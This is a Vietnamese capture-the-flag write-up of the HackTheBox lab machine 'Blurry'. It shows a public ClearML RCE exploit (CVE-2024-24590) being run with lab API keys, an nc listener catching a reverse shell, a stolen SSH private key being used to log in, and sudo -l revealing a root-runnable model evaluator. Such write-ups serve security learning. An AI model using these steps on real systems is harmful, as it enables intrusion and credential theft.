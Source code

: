 Ở `files` thì không có thấy gì, truy cập vào subdomain `chat` và đăng kí tài khoản, xem được đoạn chat:

<img width="1868" height="898" alt="image" src="https://github.com/user-attachments/assets/aea66077-6248-496e-b5e0-6c1ee5a2ded8" />

Ở đây có đề cập đến review project `Black Swan`:

<img width="1524" height="844" alt="image" src="https://github.com/user-attachments/assets/16534b20-8a7d-4aaf-8bb3-964996a84446" />

Tiếp theo thì quay lại `app` và sử dụng đoạn exploit của [CVE-2024-24590](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit)

<img width="699" height="801" alt="image" src="https://github.com/user-attachments/assets/cdd22a70-b5e5-4b01-964c-b048e192f989" />

```
api {
  web_server: http://app.blurry.htb
  api_server: http://api.blurry.htb
  files_server: http://files.blurry.htb
  credentials {
    "access_key" = "GOOYM4M64L1RENQKLGQC"
    "secret_key" = "xFATWL9uKNAeE4WM2GbFlRXGRIZ9BgWXBOmF9dV8IOEhidL8xz"
  }
}
```

Ở đây có đường dẫn bao gồm subdomain là `api`, tôi thêm nốt vào, sau đó chạy đoạn exploit đó:

<img width="1304" height="773" alt="image" src="https://github.com/user-attachments/assets/c8f5250d-316d-46d5-95ec-30a30d99ad11" />

Sau khi đợi 1 lúc ở 1234 thì đã hiện ra reverse shell:

```
❯ nc -lvp 1234
Connection from 10.10.11.19:42320
bash: cannot set terminal process group (5833): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ cat use	
cat user.txt 
b7f1798a5e40ddeac189a53b7d88a6ef
jippity@blurry:~$ 
```

Tôi đọc `.ssh/id_rsa` và ssh vào trong server, dùng `sudo -l` thì có xuất hiện `/usr/bin/evaluate_model /models/*.pth` có thể chạy dưới quyền root mà không cần mật khẩu:

```
❯ ssh -i id_rsa jippity@10.10.11.19
Linux blurry 5.10.0-30-amd64 #1 SMP Debian 5.10.218-1 (2024-06-01) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep 24 07:25:39 2025 from 10.10.14.12
jippity@blurry:~$ sudo -l
Matching Defaults entries for jippity on blurry:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
jippity@blurry:~$ ls -la /models/
total 1068
drwxrwxr-x  2 root jippity    4096 Sep 24 07:42 .
drwxr-xr-x 19 root root       4096 Jun  3  2024 ..
```